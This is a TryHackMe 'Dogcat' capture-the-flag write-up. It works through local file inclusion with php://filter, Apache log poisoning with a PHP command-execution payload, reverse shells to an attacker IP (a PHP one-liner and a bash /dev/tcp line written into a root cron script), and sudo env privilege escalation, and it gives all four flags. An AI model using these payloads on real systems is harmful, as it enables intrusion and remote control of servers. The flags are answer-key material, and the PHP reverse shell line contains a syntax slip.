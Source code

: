 ```yaml
---
title: "Dogcat - TryHackMe"
author: Ludovic COULON
date: 2020-06-02
hero: ./images/hero.png
excerpt: "Writeup for the Dogcat room on TryHackMe"
---
```


[TryHackMe | Dogcat](https://tryhackme.com/room/dogcat)

<div className="Image__Small">
  <img src="https://i.imgur.com/mj1rbea.png" alt="blog_image" />
</div>

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!

**This machine may take a few minutes to fully start up.**

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.121.12
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I

80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 What is flag 1?

I'm going to try some basic LFI

<div className="Image__Medium">
  <img src="https://imgur.com/IeJGwlC.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/UMyhkfJ.png" alt="blog_image" />
</div>

I'm going to try with php filter let's see if this works..

[LFI Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/)

<div className="Image__Medium">
  <img src="https://imgur.com/FXeOWux.png" alt="blog_image" />
</div>

```bash
php://filter/convert.base64-encode/resource=cat
# Let's decode the base64 to see the result
<img src="cats/<?php echo rand(1, 10); ?>.jpg" />
```

<div className="Image__Medium">
  <img src="https://imgur.com/jF0hO89.png" alt="blog_image" />
</div>

Nice ! We can see the php code let's see if there is something in the directory

```bash
php://filter/convert.base64-encode/resource=./cat/../index
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

There we go ! We have the php code let's see if we can do something with it 🤤

So.. There is no way that we can exploit the php code so let's look at the nmap result and we have the apache version, let's see if we can see the log.

```bash
By default, you can find the Apache access log file at the following path:

    /var/log/apache/access. log.
    /var/log/apache2/access. log.
    /etc/httpd/logs/access_log.
```

If we try with this following url

```bash
php://filter/convert.base64-encode/resource=./cat/../../../../../../../../../../../../../var/log/apache2/access.log
```

There will be an error its because the code don't like the ".log" let's correct that 😃

On the php code there is this ternary condition "\$\_GET["ext"]" let's use that at the end

<div className="Image__Medium">
  <img src="https://imgur.com/25dLhcZ.png" alt="blog_image" />
</div>

Nice ! It worked !! 😵

Let's decode the base64 to see the result 😊

```bash
10.9.2.228 - - [02/Jun/2020:20:38:04 +0000] "GET /?view=php://filter/convert.base64-encode/resource=./cat/../../../../../../../../../../../../../var/log/apache2/access.log&ext HTTP/1.1" 200 2890 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

Now let's see if we can have an RCE attack 🤑

<div className="Image__Medium">
  <img src="https://imgur.com/gZZJUJR.png" alt="blog_image" />
</div>

And there it is ! If we put "<?php system($_GET['cmd']);?>" on the user-agent we can execute code on the remote server.

Let's get a reverse shell using the same method..

[php | GTFOBins](https://gtfobins.github.io/gtfobins/php/#reverse-shell)

```bash

php -r '$sock=fsockopen("10.9.2.228"),"",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<div className="Image__Small">
  <img src="https://imgur.com/2bjNiUu.png" alt="blog_image" />
</div>

```bash
$ cat flag.php
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

### #2 What is flag 2?

```bash
$ cd ..
$ pwd
/var/www
$ ls
flag2_QMW7JvaY2LvK.txt
html
$ cat flag2_QMW7JvaY2LvK.txt
THM{LF1_t0_RC3_aec3fb}
```

### #3 What is flag 3?

```bash
$ sudo -l
Matching Defaults entries for www-data on 17d35d82c239:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 17d35d82c239:
    (root) NOPASSWD: /usr/bin/env
```

[https://gtfobins.github.io/gtfobins/env/#sudo](https://gtfobins.github.io/gtfobins/env/#sudo)

```bash
sudo env /bin/sh
```

```bash
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
flag3.txt
cat flag3.txt
THM{D1ff3r3nt_3nv1ronments_874112}
```

### #4 What is flag 4?

```bash
find / -type f -name *.sh 2>/dev/null
/opt/backups/backup.sh
/etc/init.d/hwclock.sh
/lib/init/vars.sh
/usr/local/lib/php/build/ltmain.sh
/usr/share/debconf/confmodule.sh
```

```bash
cd /opt/backups
ls
backup.sh
backup.tar
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Let's add a reverse shell on the bash script and get hopefully the last flag 🤓

```bash
echo '#!/bin/bash' > backup.sh;echo 'bash -i >& /dev/tcp/10.9.2.228/9002 0>&1' >> backup.sh
```

```bash
➜  ~ nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.9.2.228] from (UNKNOWN) [10.10.121.12] 43500
bash: cannot set terminal process group (5464): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4*
cat flag4*
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
root@dogcat:~#
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/p0h00A1.png" alt="TryhackMeProfile" />
  </a>
</center>

